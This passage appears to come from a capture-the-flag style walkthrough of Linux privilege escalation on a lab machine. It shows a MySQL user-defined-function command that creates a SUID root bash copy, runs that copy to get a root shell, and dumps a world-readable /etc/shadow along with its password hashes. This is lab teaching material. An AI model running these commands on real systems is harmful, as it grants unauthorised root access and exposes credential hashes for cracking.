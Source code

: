 ```jsx
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type **exit** or **\q** and press **Enter**) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

```jsx
/tmp/rootbash -p
```

**Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!**

```jsx
rm /tmp/rootbashexit
```

# Task 3 Weak File Permissions - Readable /etc/shadow

---

```jsx
user@debian:~/tools/mysql-udf$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~/tools/mysql-udf$ cat /etc/shadow
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
daemon:*:17298:0:99999:7:::
bin:*:17298:0:99999:7:::
sys:*:17298:0:99999:7:::
sync:*:17298:0:99999:7:::
games:*:17298:0:99999:7:::
man:*:17298:0:99999:7:::
lp:*:17298:0:99999:7:::
mail:*:17298:0:99999:7:::
news:*:17298:0:99999:7:::
uucp:*:17298:0:99999:7:::
proxy:*:17298:0:99999:7:::
www-data:*:17298:0:99999:7:::
backup:*:17298:0:99999:7:::
list:*:17298:0:99999:7:::
irc:*:17298:0:99999:7:::
gnats:*:17298:0:99999:7:::
nobody:*:17298:0:99999:7:::
libuuid:!:17298:0:99999:7:::
Debian-exim:!:17298:0:99999:7:::
sshd:*:17298:0:99999:7:::
user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
statd:*:17299:0:99999:7:::
mysql:!:18133:0:99999:7:::
user@debian:~/tools/mysql-udf$
```
